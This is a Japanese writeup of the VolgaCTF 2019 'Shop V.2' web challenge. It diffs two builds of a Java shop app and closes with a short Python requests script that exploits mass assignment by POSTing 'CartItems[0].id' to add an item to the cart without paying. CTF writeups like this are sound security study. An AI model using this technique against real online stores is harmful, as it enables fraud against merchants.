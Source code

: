 # VolgaCTF 2019 "Shop V.2" writeup

## 問題

![問題](./001.png)

## 解法

これはいろいろ試したのだがShopを勘違いしていた僕にとって難しすぎた。

Shopと同様にwarファイルはダウンロードできた。
差分はShopContrller.javaとかごく一部。
単純に買えなくなったというだけの変更に見える。



```bash-statement
# cd shop-1.0.0
# find . -printf "%p %s\n" > ../shop-1.0.0_list.txt
# cd ../shop-1.0.1
# find . -printf "%p %s\n" > ../shop-1.0.1_list.txt
# diff ../shop-1.0.0_list.txt ../shop-1.0.1_list.txt
69c69
< ./WEB-INF/classes/application.properties 165
---
> ./WEB-INF/classes/application.properties 358
71c71
< ./WEB-INF/classes/data.sql 329
---
> ./WEB-INF/classes/data.sql 247
77c77
< ./WEB-INF/classes/ru/volgactf/shop/controllers/ShopController.class 7402
---
> ./WEB-INF/classes/ru/volgactf/shop/controllers/ShopController.class 6911
```

```WEB-INF/classes/application.properties``` を見るとデータベース関連のやつが追加されているので外部から接続できたりするのか？と思いJDBCやらでいろいろ接続しようとしたけどそもそもポートが空いてない。

```
spring.mvc.view.prefix=/WEB-INF/templates/
spring.mvc.view.suffix=.jsp
spring.datasource.driver-class-name=org.h2.Driver
spring.datasource.initialization-mode=always
server.address=127.0.0.1
spring.jpa.properties.hibernate.temp.use_jdbc_metadata_defaults=false
spring.jpa.hibernate.ddl-auto=create
spring.jpa.database-platform=org.hibernate.dialect.H2Dialect
```

ShopController.javaはbuyができなくなるという修正が加えられているだけ。

```text
99,112c99

<         final Product product = this.productDao.geProduct(productId);

<         if (product != null) {

<             if (product.getPrice() <= user.getBalance()) {

<                 user.setBalance(Integer.valueOf(user.getBalance() - product.getPrice()));

<                 user.getCartItems().add(product);

<                 this.userDao.update(user);

<                 redir.addFlashAttribute("message", (Object)"Successful purchase");

<                 return "redirect:profile";

<             }

<             redir.addFlashAttribute("message", (Object)"Not enough money");

<         }

<         else {

<             redir.addFlashAttribute("message", (Object)"Product not found");

<         }

---

>         redir.addFlashAttribute("message", (Object)"Too easy");
```


結局他の人のwriteupを見ないと分からなかった。
ポイントは以下のの2点。
- POSTで変数を書き換える
- CartItemsの配列を追加する

writeupを参考にPythonのrequestsを使って書いていたのだけど、どうもうまく動かず。
結局Cookieを使ってセッション管理するときはrequests.Sessionを使った方が良いということが分かった。
配列をPOSTするときに「```CartItems[0]```」とかするのもポイントかな。

```python
import requests

login_url = "http://shop2.q.2019.volgactf.ru/loginProcess"
target_url = "http://shop2.q.2019.volgactf.ru/profile"

payload0 = {'name': 'wani', 'pass': 'xxxxxxxx'}
payload1 = {'name': 'wani', 'CartItems[0].id': 4}

s = requests.Session()
r = s.post(login_url, data=payload0)
r = s.post(target_url, data=payload1)
print(r.text)
```

## 参考

- [VolgaCTF 2019 Qualifier - CTF](https://tuanlinh.gitbook.io/ctf/volgactf-2019-qualifier#web-shop-2)
